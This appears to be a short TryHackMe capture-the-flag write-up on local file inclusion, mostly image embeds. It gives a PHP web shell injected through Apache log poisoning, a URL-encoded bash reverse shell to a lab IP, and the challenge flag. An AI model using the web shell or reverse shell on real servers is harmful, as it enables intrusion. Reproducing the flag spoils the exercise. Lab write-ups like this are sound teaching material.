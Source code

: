 ![Pasted image
20240209021724.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033647.png){.internal-embed
touched="true"}

### File Inclusion Types

![Pasted image
20240209021805.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209021724.png){.internal-embed
touched="true"}

### PHP WRAPPER

    PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
    Copy

![Pasted image
20240209033546.png]([https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033546.png)){.internal-embed
touched="true"}

    Task 8 LFI2RCE - Wrappers

    I copied the `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` and submitted it to the server

    Copy

![Pasted image
20240209032424.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032424.png){.internal-embed
touched="true"}

    and then I used this payload to get a reverse shell 

    page=/var/log/apache2/access.log&&cmd=/bin/bash -c '0<%26196%3Bexec 196<>%2Fdev%2Ftcp%2F10.6.29.207%2F9001%3B sh <%26196 >%26196 2>%26196'

    this is just a url encoded payload i crafted from revshells.com
    Copy

![Pasted image
20240209032701.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032701.png){.internal-embed
touched="true"}

    THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
    Copy

    and finally the most important part is mitigation
    Copy

**![Pasted image
20240209033150.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033150.png){.internal-embed
touched="true"}**
